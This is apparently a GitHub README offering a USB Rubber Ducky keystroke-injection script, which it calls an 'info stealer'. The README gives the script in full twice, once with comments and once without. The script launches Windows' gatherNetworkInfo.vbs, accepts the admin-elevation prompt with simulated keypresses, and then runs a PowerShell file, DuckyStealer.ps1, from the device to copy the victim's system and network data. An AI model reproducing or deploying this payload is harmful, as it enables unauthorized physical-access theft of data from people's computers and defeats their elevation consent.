 # Rubber_Ducky_Gather_Network_Info
A very quickly script for rubber ducky which exploits the gatherNetworkInfo.vbs file in the</BR>
C:\Windows\System32 folder to steal different information from the victim machine.

![Alt text](https://github.com/JonnyBanana/Rubber_Ducky_Gather_Network_Info/blob/master/images/PrivacyPolicy.png "Rubber_Ducky_Gather_Network_Info by JonnyBanana")

<h2>Gather_Network_Info_Script</h2>

REM gathernetworkInfo a info stealer script by JonnyBanana
</BR>
REM https://github.com/JonnyBanana
</BR>
REM large delay beacause Windows require a lot of time to read the Ducky with twin duck firmware
</BR>
DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
</BR>
REM run as admin
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
REM the scripts require a little of time to create the files....
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
REM the Rubber Ducky MUST renamed on " _ " (bottom bar)
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>
REM the last command  takes about thirty seconds to copy all the informations
</BR>
REM so be patient...



<h6>Script Without Comments</H6>

DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>




<h3>Quack Yo Life!!!</h3>
</BR>




</BR>
<!-- Banner -->
<div align="center">
<a href="https://www.purevpn.com/order-now.php?aff=44922&amp;a_bid=bbd0f893" target="_blank" ><img src="https://affiliates.purevpn.com/accounts/default1/6hb82wqa2l/bbd0f893.jpg" alt="Best VPN" title="Best VPN" width="728" height="90" /></a>
</BR></BR>
</div>


More info: https://www.verboon.info/2011/06/the-gathernetworkinfo-vbs-script/

